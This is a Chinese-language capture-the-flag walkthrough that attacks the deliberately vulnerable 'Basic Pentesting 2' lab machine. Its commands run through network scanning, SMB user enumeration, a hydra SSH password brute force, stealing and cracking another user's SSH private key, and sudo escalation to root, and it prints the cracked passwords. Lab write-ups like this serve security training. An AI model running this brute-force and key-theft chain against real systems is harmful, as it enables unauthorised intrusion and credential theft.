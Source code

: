 
##### 攻擊主機：Kali_Linux_2019.3 
##### 靶機：Basic_Pentesting_2.1

**Kali>** <code>arp-scan -l</code> (尋找靶機)<br/>
**Kali>** <code>nmap -A 192.168.203.132</code> (去看他開啟了甚麼port) <br/>
![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/587481ef-dc6a-4eb7-b822-6aaab8f60a39)
(我發現他開啟了22port，那就可以走簡單的ssh，也發現他有開samba 我選擇走enum4linux)<br/>
**Kali>** <code>enum4linux 192.168.203.132</code> (掃描，看看能掃到甚麼)<br/>
![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/934b796a-fdba-4e40-9714-ea289b312fed)<br/>
(得到兩個使用者帳號 Kay 和 Jan)<br/>
(Jan 權限較低，較好攻擊)<br/>
**kali>**  <code>hydra -l jan -P /usr/share/wordlists/rockyou.txt 192.168.203.132 ssh</code> (破解密碼)<br/>
(得到帳號jan的密碼：armando)<br/>
**kali>** <code>ssh jan@192.168.203.132</code>(連線到jan的帳號)<br/>
**Jan>** <code>sudo -l</code>(測試我的權限)(發現權限不足，改入侵kay)<br/>
**Jan>** <code>pwd</code>(查看我在哪裡)<br/>
**Jan>** <code>cd ..</code><br/>
**Jan>** <code>ls -al</code><br/>
**Jan>** <code>cd /home/kay</code>(移動到kay的檔案夾下)<br/>
**Jan>** ls -al(看看有甚麼檔案，發現pass.bak)
![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/fce2acb2-87c4-4bb4-aa61-bb323397a3de)<br/>
**Jan>** <code>cat pass.bak</code>(嘗試開啟，發現沒有權限)<br/>
**Jan>** <code>cd ssh</code>(移動到ssh下面)<br/>
**Jan>** <code>ls -al</code>(找金鑰檔)<br/>
**Jan>** <code>scp jan@192.168.203.132:/home/kay/.ssh/id_rsa ./</code>(把金鑰存到我的位置)<br/>
**Kali>** <code>locate ssh2john</code>(因為ssh2john已經不在新版的kali的全域變數中，需先locate ssh2john)<br/>
**Kali>** <code>/usr/share/john/ssh2john.py id_rsa > kay.hash</code>(將id_rsa轉成hash)<br/>
**Kali>** <code>john -w:/usr/share/wordlists/rockyou.txt kay.hash</code>(john他)<br/>
(得到beeswax)<br/>
**Jan>** <code>ssh -I /home/kay/.ssh/id_rsa kay@localhost</code>(輸入金鑰後變成kay)<br/>
(可開啟pass.bak)<br/>
(得到密碼heresareallystrongpasswordthatfollowsthepasswordpolicy$$)<br/>
**Kay>** <code>sudo su</code><br/>
**Kay>** <code>whoami</code><br/>
##### Root<br/>
成功<br/>

